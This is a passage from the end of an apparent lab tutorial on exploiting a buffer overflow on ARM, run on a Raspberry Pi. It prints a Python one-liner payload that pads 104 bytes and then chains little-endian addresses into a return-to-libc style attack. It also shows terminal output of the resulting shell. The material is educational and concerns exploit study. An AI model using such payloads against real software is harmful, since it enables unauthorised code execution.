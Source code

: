 Note that, the addresses should be in `Little Endian` order.

```bash
$ ./overflow $(python -c 'print "A"*104+"\x64\xf1\xe5\x76"+"\xc8\xf9\xe7\x76"+"\x90\x42\xe7\x76"+"JUNK"+"\x6c\x2b\xf7\x76"')
```

## Output in Terminal
So, the output will look like as follows:
```bash
pi@raspberrypi:~$ ./overflow $(python -c 'print "A"*104+"\x64\xf1\xe5\x76"+"\xc8\xf9\xe7\x76"+"\x90\x42\xe7\x76"+"JUNK"+"\x6c\x2b\xf7\x76"')

$ 
$ ls
nothin	overflow  overflow.c  payload.py  rop_script
$ pwd
/home/pi/exploitation/mprotect
$ 

```
Bingo!!!

Have fun!!! 

## Reference
1. [ARM Exploitation - Defeating DEP - execute system()](https://blog.3or.de/arm-exploitation-defeating-dep-execute-system.html)
